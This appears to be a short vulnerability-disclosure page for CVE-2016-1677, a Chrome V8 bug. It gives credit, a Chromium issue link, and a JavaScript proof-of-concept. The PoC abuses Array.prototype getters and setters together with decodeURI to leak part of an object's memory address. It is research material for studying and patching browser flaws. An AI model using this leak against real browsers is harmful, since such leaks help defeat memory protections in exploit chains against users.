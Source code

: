 # CVE-2016-1677

- Date: May 2016
- Credit: Guang Gong of Qihoo 360

## PoC

```javascript
var num = new Number(10);
Array.prototype.__defineGetter__(0,function(){
        return num;
})
Array.prototype.__defineSetter__(0,function(value){
})
var str=decodeURI("%E7%9A%84");
//in 32bit system, the leaked bits is [31..16]
////in 64bit system, the leaked bits is [47..32]
//alert("partial address of object num is "+str.charCodeAt(0).toString(16));
```

## Reference

- [Issue](https://crbug.com/602970)
